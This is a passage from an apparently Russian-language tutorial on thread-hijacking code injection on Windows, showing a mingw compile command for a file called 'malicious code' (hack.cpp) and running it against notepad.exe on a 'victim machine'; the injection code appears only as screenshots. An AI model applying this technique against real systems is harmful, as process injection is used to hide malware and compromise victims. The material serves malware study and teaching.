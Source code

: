 И на следующем шаге возобновляем захваченный поток:    

![code injection 9](./images/24/2021-11-24_02-07.png){width="80%"}    

Как видите, это не так уж и сложно. Давайте скомпилируем этот вредоносный код:    
```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -mconsole \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc \
-fpermissive >/dev/null 2>&1
```

![code injection 10](./images/24/2021-11-24_02-18.png){width="80%"}    

Затем на машине жертвы сначала запускаем `notepad.exe`, а затем выполняем нашу программу:    

```powershell
.\hack.exe notepad.exe
```
